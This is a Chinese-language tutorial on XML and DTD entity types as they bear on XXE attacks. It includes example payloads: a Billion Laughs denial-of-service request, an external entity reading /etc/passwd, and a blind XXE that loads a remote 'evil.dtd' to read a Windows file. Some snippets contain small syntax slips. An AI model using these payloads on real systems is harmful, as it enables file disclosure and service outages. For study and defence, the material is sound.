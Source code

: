 ## XXE 相关基础概念

**XML&DTD**

XML(可扩展标记语言，EXtensible Markup Language )，是一种标记语言，用来传输和存储数据

DTD(文档类型定义，[Document](http://www.liuhaihua.cn/archives/tag/document) Type Definition )的作用是定义XML文档的合法构建模块。它使用一系列的合法元素来定义文档结构。

**实体ENTITY**

XML中的实体类型，一般有下面几种：字符实体，命名实体（或内部实体）、外部实体（包含分为：外部普通实体、外部参数实体）。除外部参数实体外，其他实体都以字符（&）开始以字符（；）结束。

**DTD引用方式**

a)DTD 内部声明

```xml
<!ENTITY 实体名称 SYSTEM "URI/URL"

```

b)DTD 外部引用

```xml
<!DOCTYPE 根元素名称 SYSTEM “外部DTD的URI">

```

c)引用公共DTD

```
<!DOCTYPE 根元素名称 PUBLIC “DTD标识名" “公用DTD的URI">

```

**0x1:字符实体**

字符实体类似html的实体编码，形如a(十进制)或者a（十六进制）。

**0x2:命名实体（内部实体）**

内部实体又叫命名实体。命名实体可以说成是变量声明，命名实体只能生命在DTD或者XML文件开始部分（语句中）。

命名实体（或内部实体语法）:

```
<!ENTITY 实体名称 "实体的值">

```

如：

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE root [
    <!ENTITY x "First Param!">
    <!ENTITY y "Second Param!">
]>
<root><x>&x;</x><y>&y;</y></root>

```

说明：

定义一个实体名称x 值为First Param!

&x; 引用实体x

知道以上语法后，可以使用名为foo的数据类型定义（DTD）构造如下请求:

request:

```bash
POST http://example.com/xml HTTP/1.1

<!DOCTYPE foo [
  <!ELEMENT foo ANY>
  <!ENTITY bar "World">
]>
<foo>
  Hello &bar;
</foo>

```

respone:

```bash
HTTP/1.0 200 OK

Hello World

```

bar元素是单词“World”的别名 。看起来这样的内部实体似乎无害，但攻击者可以使用XML实体通过在实体内的实体内嵌入实体来导致拒绝服务攻击。通常被称为“ （Billion Laughs attack）[十亿笑攻击](https://en.wikipedia.org/wiki/Billion_laughs) ”。某些XML解析器会自动限制它们可以使用的内存量。

如：

request:

```bash
POST http://example.com/xml HTTP/1.1

<!DOCTYPE foo [
  <!ELEMENT foo ANY>
  <!ENTITY bar "World ">
  <!ENTITY t1 "&bar;&bar;">
  <!ENTITY t2 "&t1;&t1;&t1;&t1;">
  <!ENTITY t3 "&t2;&t2;&t2;&t2;&t2;">
]>
<foo>
  Hello &t3;
</foo>

```

response:

```bash
HTTP/1.0 200 OK

Hello World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World

```

0x3):外部**普通实体**

外部实体用于加载外部文件的内容。(显示XXE攻击主要利用普通实体)

外部普通实体语法：

```
<!ENTITY 实体名称 SYSTEM "URI/URL"

```

如：

```bash
<!DOCTYPE foo [<!ELEMENT foo ANY>
<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<foo>&xxe;</xxe>
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPe root [
    <!ENTITY outfile SYSTEM "outfile.xml">
]>
<root><outfile>&outfile;</outfile></root>

```

0x4):外部**参数实体**

```xml
<!ENTITY % 实体名称 "实体的值">
or
<!ENTITY % 实体名称 SYSTEM "URI">

```

参数实体用于DTD和文档的内部子集中。与一般实体不同，是以字符（%）开始，以字符(;)结束。只有在DTD文件中才能在参数实体声明的时候引用其他实体。(Blind XXE攻击常利用参数实体进行数据回显)

### 示例：

> 第一个例子

```bash
<!DOCTYPE foo [<!ELEMENT foo ANY>
<!ENTITY % xxe SYSTEM "http://xxxx/evil.dtd">
%xxe;]>
<foo>&evil;</foo>

```

外部evil.dtd中的内容。

```
<!ENTITY evil SYSTEM “file:///c:/windows/win.ini" >

```

> 第二个例子

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE root [
    <!ENTITY % param1 "Hello">
    <!ENTITY % param2 " ">
    <!ENTITY % param3 "World">
    <!ENTITY dtd SYSTEM "combine.dtd">
    %dtd;
]>
<root><foo>&content</foo></root>

```

combine.dtd的内容为：

```
<!ENTITY content "%parm1;%parm2;%parm3;">

```

说明：

上面combine.dtd中定义了一个基本实体，引用了3个参数实体：%param1;，%param2;，%param3;。

解析后…中的内容为Hello World。


